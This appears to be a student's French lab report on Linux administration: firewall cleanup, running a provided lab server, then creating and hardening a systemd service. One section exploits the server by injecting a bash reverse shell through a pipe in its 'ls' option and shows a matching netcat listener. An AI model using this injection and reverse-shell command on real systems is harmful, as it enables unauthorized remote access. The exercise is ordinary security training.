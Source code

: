 # linux-10-11

0. Prérequis

🌞 Boom ça commence direct : je veux l'état initial du firewall

```
[hugo@efrei-xmg4agau1 ~]$ systemctl status firewalld
● firewalld.service - firewalld - dynamic firewall daemon
     Loaded: loaded (/usr/lib/systemd/system/firewalld.service; enabled; preset: enabled)
     Active: active (running) since Tue 2024-09-10 04:14:38 EDT; 8min ago
       Docs: man:firewalld(1)
   Main PID: 703 (firewalld)
      Tasks: 2 (limit: 48922)
     Memory: 41.8M
        CPU: 627ms
     CGroup: /system.slice/firewalld.service
             └─703 /usr/bin/python3 -s /usr/sbin/firewalld --nofork --nopid

Sep 10 04:14:37 localhost systemd[1]: Starting firewalld - dynamic firewall daemon...
Sep 10 04:14:38 localhost systemd[1]: Started firewalld - dynamic firewall daemon.
```

```
[hugo@efrei-xmg4agau1 ~]$ sudo firewall-cmd --list-services
[sudo] password for hugo:
cockpit dhcpv6-client ssh
```

```
[hugo@efrei-xmg4agau1 ~]$ sudo firewall-cmd --permanent --remove-service=cockpit
success
[hugo@efrei-xmg4agau1 ~]$ sudo firewall-cmd --permanent --remove-service=dhcpv6-client
success
[hugo@efrei-xmg4agau1 ~]$ sudo firewall-cmd --reload
success
[hugo@efrei-xmg4agau1 ~]$ sudo firewall-cmd --list-services
ssh
```

🌞 Fichiers /etc/sudoers /etc/passwd /etc/group dans le dépôt de compte-rendu svp !

/etc/sudoers
```
## Allows people in group wheel to run all commands
%wheel  ALL=(ALL)       ALL
```
/etc/passwd
```
hugo:x:1000:1000:hugo:/home/hugo:/bin/bash
```
/etc/group
```
wheel:x:10:hugo
```

I. Partie 1 : Host & Hack

🌞 Télécharger l'application depuis votre VM
```
[hugo@efrei-xmg4agau1 ~]$ curl -O https://gitlab.com/it4lik/b3-csec-2024/-/raw/main/efrei_server
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 7044k  100 7044k    0     0  8718k      0 --:--:-- --:--:-- --:--:-- 8707k
```

```
[hugo@efrei-xmg4agau1 ~]$ ls
efrei_server
[hugo@efrei-xmg4agau1 ~]$ chmod +x efrei_server
```

🌞 Lancer l'application efrei_server

```
[hugo@efrei-xmg4agau1 ~]$ LISTEN_ADDRESS=192.168.56.101 ./efrei_server
Warning: You should consider setting the environment variable LOG_DIR. Defaults to /tmp.
Server started. Listening on ('192.168.56.101', 8888)...
```
🌞 Prouvez que l'application écoute sur l'IP que vous avez spécifiée
```
[hugo@efrei-xmg4agau1 ~]$ ss -tuln | grep 8888
tcp   LISTEN 0      100    192.168.56.114:8888      0.0.0.0:*
```
2. Prêts
   
🌞 Se connecter à l'application depuis votre PC

```
hugo@efrei-xmg4agau1 ~$ nc 192.168.56.114 8888
Hello ! Tu veux des infos sur quoi ?
1) cpu
2) ram
3) disk
4) ls un dossier

Ton choix (1, 2, 3 ou 4) :
```

3. Hackez

🌞 Euh bah... hackez l'application !

Du côté client, on constate qu'en sélectionnant l'option 4, il est possible de choisir un dossier à lister avec la commande ls, puis d'injecter une commande via un pipe. Ainsi, nous injectons un reverse shell en bash et configurons un serveur d'écoute sur une autre machine

```
   Ton choix (1, 2, 3 ou 4) : 4
Exécuter la commande ls vers le dossier : /etc | sh -i >& /dev/udp/192.168.56.115/4242 0>&1
```
```
nc -u -lvp -4242
```


II. Servicer le programme

1. Création du service
   
🌞 Créer un service efrei_server.service

```
[Unit]
Description=Super serveur EFREI

[Service]
ExecStart=/usr/local/bin/efrei_app
Environment=LISTEN_ADDRESS=192.168.56.114
```

➜ Une fois le fichier /etc/systemd/system/efrei_server.service créé :
```
[hugo@efrei-xmg4agau1 ~]$ sudo systemctl daemon-reload
```

2. Tests

🌞 Exécuter la commande systemctl status efrei_server
```
[hugo@efrei-xmg4agau1 ~]$ systemctl status efrei_server
○ efrei_server.service - Super serveur EFREI
     Loaded: loaded (/etc/systemd/system/efrei_server.service; static)
     Active: inactive (dead)
```
🌞 Démarrer le service
```
[hugo@efrei-xmg4agau1 ~]$ sudo systemctl status efrei_server
● efrei_server.service - Super serveur EFREI
     Loaded: loaded (/etc/systemd/system/efrei_server.service; static)
     Active: active (running) since Tue 2024-09-10 08:11:33 EDT; 3s ago
   Main PID: 13262 (efrei_app)
      Tasks: 2 (limit: 11099)
     Memory: 32.5M
        CPU: 62ms
     CGroup: /system.slice/efrei_server.service
             ├─13262 /home/hugo/efrei_app
             └─13263 /home/hugo/efrei_app

Sep 10 08:11:33 localhost.localdomain systemd[1]: Started Super serveur EFREI.
```

🌞 Vérifier que le programme tourne correctement
```
[hugo@efrei-xmg4agau1 ~]$ ss -tuln | grep 8888
tcp   LISTEN 0      100    192.168.56.114:8888      0.0.0.0:*
```

III. MAKE SERVICES GREAT AGAIN

1. Restart automatique
Bon pour ça, facile, on va juste faire en sorte que si le programme coupe, il soit relancé automatiquement.


🌞 Ajoutez une clause dans le fichier efrei_server.service pour le restart automatique
```
[Unit]
Description=Super serveur EFREI

[Service]
Type=daemon
ExecStart=/usr/local/bin/efrei_app
Environment=LISTEN_ADDRESS=192.168.56.114

User=hugo
Group=hugo

Restart=always
```
🌞 Testez que ça fonctionne

```
[hugo@efrei-xmg4agau1 ~]$ ps -e | grep efrei_app
  13435 ?        00:00:00 efrei_app
```

```  
[hugo@efrei-xmg4agau1 ~]$ kill 13435
```

```
[hugo@efrei-xmg4agau1 ~]$ ps -e | grep efrei_app
  13462 ?        00:00:00 efrei_app
```

2. Utilisateur applicatif
Lorsqu'un programme s'exécute sur une machine (peu importe l'OS ou le contexte), le programme est toujours exécuté sous l'identité d'un utilisateur.
Ainsi, pendant son exécution, le programme aura les droits de cet utilisateur.

Par exemple, un programme lancé en tant que toto pourra lire un fichier /var/log/toto.log uniquement si l'utilisateur toto a les droits sur ce fichier.

🌞 Créer un utilisateur applicatif
```

[hugo@efrei-xmg4agau1 ~]$ sudo useradd app_user
```


🌞 Modifier le service pour que ce nouvel utilisateur lance le programme efrei_server

```
User=app_user
Group=app_user
```

🌞 Vérifier que le programme s'exécute bien sous l'identité de ce nouvel utilisateur

```
[hugo@efrei-xmg4agau1 ~]$ ps aux | grep efrei_app
efreius+   13916  0.2  0.1   2956  1884 ?        Ss   09:22   0:00 /usr/local/bin/efrei_app
efreius+   13918  0.1  1.4  33772 25984 ?        S    09:22   0:00 /usr/local/bin/efrei_app
hugo      13924  0.0  0.1   6408  2176 pts/0    S+   09:22   0:00 grep --color=auto efrei_app
```

3. Maîtrisez l'emplacement des fichiers

🌞 Choisir l'emplacement du fichier de logs

```
[hugo@efrei-xmg4agau1 ~]$ sudo mkdir /var/log/efreiapp
```

```
Environment="LOG_DIR=/var/log/efreiapp/"
```

🌞 Maîtriser les permissions du fichier de logs

```
[hugo@efrei-xmg4agau1 bin]$ sudo mkdir /var/log/efreiapp
[hugo@efrei-xmg4agau1 bin]$ sudo chown efreiuser:efreiuser /var/log/efreiapp/
[hugo@efrei-xmg4agau1 bin]$ ls -al /var/log/efreiapp/
total 8
drwxr-xr-x. 2 efreiuser efreiuser   24 Sep 10 10:27 .
drwxr-xr-x. 8 root      root      4096 Sep 10 10:25 ..
-rw-r--r--. 1 efreiuser efreiuser   60 Sep 10 10:27 server.log
```


4. Security hardening
Il existe beaucoup de clauses qu'on peut ajouter dans un fichier .service pour que systemd s'occupe de sécuriser le service, en l'isolant du reste du système par exemple.

Ainsi, une commande est fournie systemd-analyze security qui permet de voir quelles mesures de sécurité on a activé. Un score (un peu arbitraire) est attribué au service ; cela représente son "niveau de sécurité".

Cette commande est très pratique d'un point de vue pédagogique : elle va vous montrer toutes les clauses qu'on peut ajouter dans un .service pour renforcer sa sécurité.

🌞 Modifier le .service pour augmenter son niveau de sécurité






